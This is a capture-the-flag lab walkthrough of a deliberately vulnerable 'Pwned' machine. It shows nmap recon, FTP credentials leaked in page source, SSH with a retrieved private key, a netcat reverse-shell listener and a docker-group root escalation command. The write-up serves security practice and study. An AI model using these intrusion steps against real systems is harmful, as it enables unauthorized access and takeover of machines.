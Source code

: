 # [Recon]

```
=========================================================================
[OS]: Debian
[Web-Technology]: Apache httpd 2.4.38
[Hostname]: 6fdaddd70beb
[IP]:  192.168.181.95
[USERS]:
ariana, selena, ajay
=========================================================================
```

# [NMAP RESULTS]
```
=========================================================================
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
|   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Pwned....!!
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
=========================================================================
```

# [Web Services Enumeration]:

![[Pasted image 20240811162214.png]]

```
=========================================================================
- /robots.txt
	- /hidden_text
		- /hidden_text/secret.dic
	- /nothing
- /pwned.vuln
```
![[Pasted image 20240811163133.png]]
- `view-page-source`
```php
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
//		echo "welcome"
//		exit();
// }
// else 
//	echo "Invalid creds"
// }
?>
```
- There it is!! Its the `ftp-credentials`
```bash
ftp 192.168.181.95
# `ftpuser` : `B0ss_Pr!ncesS`
ls -la
cd /share
ls -la
get id_rsa
get note.txt

```

```bash
ssh -i id_rsa ariana@192.168.181.95
sudo -l
# Notice the selena user
```
![[Pasted image 20240811164345.png]]
```bash
sudo -u selena /home/messenger.sh
```
![[Pasted image 20240811164758.png]]
```bash
# Locally
nc -lnvp 9001
```

![[Pasted image 20240811164954.png]]
- Notice the `docker group`

# [PRIVILEGE-ESCALATION]
```bash
ps -eaf --forest | grep -i docker
```
![[Pasted image 20240811165518.png]]

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


```

=========================================================================
Take Away Concepts (for the flat-file reference system):
* Always check for `robots.txt` and `view-page-source`
* When ever you come across a user input, check for [sql,xss,code exec, etc]
* In the absence of SUIDs and GUIDs, check for running processes, observer groups

```